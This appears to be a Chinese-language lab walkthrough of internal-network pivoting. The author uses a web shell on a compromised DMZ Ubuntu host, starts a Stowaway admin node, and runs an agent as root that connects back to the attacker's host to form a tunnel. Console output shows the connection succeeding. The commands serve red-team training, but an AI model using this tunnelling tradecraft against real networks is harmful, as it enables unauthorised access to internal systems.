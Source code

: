 由于 DMZ 主机 IP1 是桥接宿主机，IP 根据每台机器 DHCP 动态获取会有不同，以实际为准。

*建立第一层隧道*

拿下 DMZ 区域 Ubuntu 主机，Shell 地址 [http://172.20.10.3:81/backdoor.php，它的](http://172.20.10.3:81/backdoor.php%EF%BC%8C%E5%AE%83%E7%9A%84) Web 应用流量是反向代理到内网第二层网络，并且还是多网卡机器，因此能够访问第二层网络。

VPS 服务端开启 Socks 监听 8888，等待连接。-s 使用加密密钥 test 传输数据。

```bash
PS E:\Desktop\Stowaway> .\windows_x64_admin.exe -s test -proxyp asdf -proxyu proxy -l 8888
[*] Starting admin node on port 8888

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.1  Author:ph4ntom }
[*] Waiting for new connection...
```

上传 agent，-c 反连 VPS 172.20.10.2:8888，--reconnect 断线后 10 重连一次。

```bash
root@ubuntu:/home/web/# ./linux_x64_agent -c 172.20.10.2:8888 -s test 
2023/03/13 00:54:48 [*] Starting agent node actively.Connecting to 172.20.10.2:8888
```

agent 与 VPS admin 端连接成功。

```bash
PS E:\Desktop\Stowaway> .\windows_x64_admin.exe -s test -l 8888
[*] Starting admin node on port 8888

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.1  Author:ph4ntom }
[*] Waiting for new connection...
[*] Connection from node 172.20.10.3:58946 is set up successfully! Node id is 0
(admin) >> detail
Node[0] -> IP: 172.20.10.3:58946  Hostname: ubuntu  User: root
Memo:

(admin) >> 
```

